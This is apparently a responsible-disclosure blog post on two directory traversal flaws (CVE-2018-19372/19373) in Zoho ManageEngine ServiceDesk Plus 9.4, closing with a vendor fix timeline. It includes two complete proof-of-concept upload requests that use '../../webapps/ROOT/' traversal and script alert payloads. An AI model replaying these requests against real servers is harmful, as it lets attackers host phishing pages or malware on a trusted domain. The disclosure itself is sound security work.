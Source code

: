 ```yaml
---
layout: post
title: Directory Traversal Vulnerability Found in Zoho ManageEngine Service Desk Plus 9.4
tags:
  - hacking
  - websec
  - CVE-2018-19372
  - CVE-2018-19373
image: /assets/img/2019-02-18-vulnerabilities-in-zoho-servicedesk/thumbnail.jpg
---
```


Multiple directory traversal vulnerability exists in Zoho ManageEngine Service Desk Plus 9.4 which allows a user with at least guest access to upload a file which can be placed into a directory that is writable by the applicaiton. This includes directories that are served from the web server. An attacker can make use of this to serve malware from the domain hosting the ServiceDesk application or to perform convincing social engineering attacks by (for example) uploading an HTML file that requests a user to log in to the application. As this page will be served from the ServiceDesk domain, it will look like a valid page of the application. The following HTTP request shows using directory traversal in the “module” parameter to change the path the “testfile.html” file is uploaded to. This places the uploaded file in webapps/ROOT/<userID> directory.

### Directory Traversal in FileAttachment.jsp

```
POST /common/FileAttachment.jsp HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://example.com/AddNewProblem.cc
Content-Type: multipart/form-data; boundary=---------------------------28363178828984
Content-Length: 640
Cookie: JSESSIONID=54E0AABA3F31B6868B13E0F0E3CC775E; JSESSIONIDSSO=E79BD1E50040898CFFE31F5FA592F9DE; sdpcsrfcookie=793aa7b9-0a12-4800-b674-1f912b584d9b; servicedeskplus-_zldp=LsfUh%2FKeku%2BdsWZxSHjiX51nFQy4GpySE4FylFB4M7br5Z1XvvLoEZmwHtjfPqKs; servicedeskplus-_zldt=7567fa5e-55e1-4cff-a800-c96f8ccad8fb
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------28363178828984
Content-Disposition: form-data; name="modId"


null
-----------------------------28363178828984
Content-Disposition: form-data; name="module"


../../webapps/ROOT/
-----------------------------28363178828984
Content-Disposition: form-data; name="filePath"; filename="testfile.html"
Content-Type: text/html


<script>alert(1)</script>
-----------------------------28363178828984
Content-Disposition: form-data; name="att_desc"



-----------------------------28363178828984
Content-Disposition: form-data; name="attach"

Attach file
-----------------------------28363178828984--
```

### Directory Traversal in ResourcesAttachments.jsp

```
POST /asset/ResourcesAttachments.jsp HTTP/1.1
Host: example.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://example.com/asset/ResourcesAttachments.jsp
Content-Type: multipart/form-data; boundary=---------------------------6692327381577
Content-Length: 829
Cookie: JSESSIONID=6C91A33EB54282BCEAFBEBBF1FB1AA54; sdpcsrfcookie=793aa7b9-0a12-4800-b674-1f912b584d9b; servicedeskplus-_zldp=LsfUh%2FKeku%2BdsWZxSHjiX51nFQy4GpySE4FylFB4M7br5Z1XvvLoEZmwHtjfPqKs; servicedeskplus-_zldt=7567fa5e-55e1-4cff-a800-c96f8ccad8fb; JSESSIONIDSSO=CCB0AE7CCF9B8208245AC5DB0E8EC06E
Connection: close
Upgrade-Insecure-Requests: 1


-----------------------------6692327381577
Content-Disposition: form-data; name="TYPE"


null
-----------------------------6692327381577
Content-Disposition: form-data; name="wsID"


null
-----------------------------6692327381577
Content-Disposition: form-data; name="module"


../../webapps/ROOT/
-----------------------------6692327381577
Content-Disposition: form-data; name="pageName"


null
-----------------------------6692327381577
Content-Disposition: form-data; name="filePath"; filename="test123.html"
Content-Type: text/html


<script>alert(1)<script>
-----------------------------6692327381577
Content-Disposition: form-data; name="att_desc"



-----------------------------6692327381577
Content-Disposition: form-data; name="attach"


Attach file
-----------------------------6692327381577--
```

### Disclosure Timeline
- **2018-07-02**: Vulnerability raised to vendor using their bug reporting platform
- **2018-07-03**: Response from vendor acknowledging receipt of vulnerability
- **2018-08-20**: Contact vendor requesting update
- **2018-08-20**: Fix released for FileAttachment.jsp in release 9415
- **2018-08-21**: Contact vendor requesting update for ResourcesAttachments.jsp vulnerability
- **2019-01-17**: Fix released for ResourcesAttachments.jsp in release 10009

